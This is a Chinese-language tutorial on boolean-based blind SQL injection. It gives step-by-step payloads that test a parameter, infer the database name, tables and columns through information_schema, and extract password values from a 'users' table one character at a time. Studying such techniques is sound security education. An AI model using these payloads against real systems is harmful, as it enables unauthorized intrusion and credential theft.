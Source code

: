 ### 基本思路

1. **注入点检测**

找到一个可以进行注入的参数位置，通常通过简单的测试 ```1=1```（始终为真）和 ```1=2```（始终为假）的情况观察响应的变化。例如：

```html
http://example.com/item?id=1 AND 1=1   --> 页面正常显示
http://example.com/item?id=1 AND 1=2   --> 页面异常或不同
```

如果响应页面存在显著差异，说明该参数存在布尔盲注的可能性。

------

2. **推测数据结构**      使用逐步的逻辑表达式查询数据库元信息：

- 推测当前使用的数据库：

  ```sql
  id=1 AND DATABASE() LIKE 'test%'
  ```

  判断当前数据库名是否以 `test` 开头。

- 获取数据库长度：

  ```sql
  id=1 AND LENGTH(DATABASE())=4
  ```

  判断当前数据库名是否为 4 个字符 ，可以写成循环来判断。

- 字符逐个推测： 假设数据库名长度为 4，逐字符尝试：

  ```sql
  id=1 AND SUBSTRING(DATABASE(), 1, 1)='t'  --> 第一个字符是否是 't'
  id=1 AND SUBSTRING(DATABASE(), 2, 1)='e'  --> 第二个字符是否是 'e'
  id=1 AND SUBSTRING(DATABASE(), 3, 1)='s'  --> 第三个字符是否是 's'
  id=1 AND SUBSTRING(DATABASE(), 4, 1)='t'  --> 第四个字符是否是 't'
  ```

------

3. **获取表名**   使用 ```information_schema.tables```  推测表名：

- 获取表的数量：

  ```sql
  id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=DATABASE())=5
  ```

  判断当前数据库中是否有 5 个表，可以写成循环来判断。

- 获取表名长度：

  ```sql
  id=1 AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))=6
  ```

  判断第一个表的名称长度为 6，可以写成循环来判断。

- 推测表名字符：

  ```sql
  id=1 AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)='u'
  ```

------

4. **获取字段名**

使用 ```information_schema.columns``` 获取字段名：

- 获取字段数量：

  ```sql
  id=1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users')=3
  ```

  判断表 `users` 中是否有 3 个字段，可以写成循环来判断。

- 获取字段名长度，可以写成循环来判断：

  ```sql
  id=1 AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1))=5
  ```

- 推测字段名字符，可以写成循环来判断：

  ```sql
  id=1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='users' LIMIT 0,1),1,1)='i'
  ```

------

5. **获取字段值**

使用逐字符猜测字段值：

 假设字段 ```password```在表```users```中：

  获取字段值长度：

    ```sql
    id=1 AND LENGTH((SELECT password FROM users LIMIT 0,1))=8
    ```

  获取字段值字符：

    ```sql
    id=1 AND SUBSTRING((SELECT password FROM users LIMIT 0,1),1,1)='p'
    ```